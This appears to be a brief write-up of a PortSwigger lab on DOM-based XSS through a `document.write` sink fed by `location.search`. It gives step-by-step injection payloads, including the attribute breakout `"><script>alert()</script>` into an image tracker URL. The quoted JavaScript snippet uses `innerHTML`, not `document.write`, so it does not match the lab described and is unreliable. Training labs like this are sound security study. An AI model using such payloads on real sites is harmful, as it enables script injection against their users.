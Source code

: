 # DOM XSS in `document.write` sink using source `location.search`

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL.

## To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert` function.

```javascript
var search = document.getElementById("search").value;
var results = document.getElementById("results");
results.innerHTML = "You searched for: " + search;
```

### step1

search something on search box for eg. search test
inspect the page
`<img src="/resources/images/tracker.gif?searchTerms=test" d3x1pocsd="">`
`add <script>alert()</script>`
`<img src="/resources/images/tracker.gif?searchTerms=<script>alert()</script>" u4lljo1cx="">`

### step2

now use
`"><script>alert()</script>`
so it will be
`<img src="/resources/images/tracker.gif?searchTerms="> <script>alert()</script> u4lljo1cx="">`
